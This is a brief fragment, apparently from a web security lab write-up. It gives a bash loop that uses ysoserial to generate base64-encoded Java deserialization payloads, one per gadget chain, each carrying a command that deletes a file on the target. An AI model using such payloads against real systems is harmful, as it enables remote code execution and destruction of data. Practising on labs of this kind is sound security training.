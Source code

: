 
first you will make dir and write bash script as :
while read payloadname;do java -jar ../ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 | tr -d '\n' >$payloadname ;done < ../yy
then delete size 0 
